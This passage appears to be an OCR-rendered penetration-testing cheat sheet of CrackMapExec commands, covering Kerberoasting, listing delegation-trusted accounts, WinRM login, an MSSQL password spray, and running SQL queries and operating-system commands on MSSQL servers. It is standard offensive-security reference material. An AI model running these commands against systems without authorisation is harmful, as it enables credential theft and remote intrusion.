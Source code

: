 Hashcat format  -m 13100

```bash
cme ldap <ip> -u <user> -p '<password>' --kerberoasting kerberoastables.txt --kdcHost <dc_ip>
```

## CME - Unconstrained Delegation (LDAP)
Lists all computers and users with the TRUSTED_FOR_DELEGATION flag.
#plateform/linux #target/remote #port/389 #port/639 #protocol/ldap #cat/RECON 

```bash
cme ldap <ip> -u <user> -p '<password>' --trusted-for-delegation
```

## CME - WinRM Authentication
Authenticates to a WinRM service.
#plateform/linux #target/remote #port/5985 #port/5986 #protocol/winrm #cat/ATTACK/CONNECT  

```bash
cme winrm <ip> -u <user> -p <password>
```

## CME - MSSQL Password Spray
Performs a password spray attack against an MSSQL server.
#plateform/linux #target/remote #port/1433 #protocol/mssql #cat/ATTACK/BRUTEFORCE-SPRAY  

```bash
cme mssql <ip> -u <user.txt> -p <password.txt>  --no-bruteforce
```

## CME - MSSQL Execute Query
Executes a SQL query on the MSSQL server.
#plateform/linux #target/remote #port/1433 #protocol/mssql #cat/ATTACK/EXPLOIT 

```bash
cme mssql <ip> -u <user> -p '<password>' --local-auth -q 'SELECT name FROM master.dbo.sysdatabases;'
```

## CME - MSSQL Execute Command
Executes an operating system command on the MSSQL server.
#plateform/linux #target/remote #port/1433 #protocol/mssql #cat/ATTACK/EXPLOIT 

```bash
cme mssql <ip> -u <user> -p '<password>' --local-auth -x <cmd|whoami>
```

= ip: 192.168.1.0/24

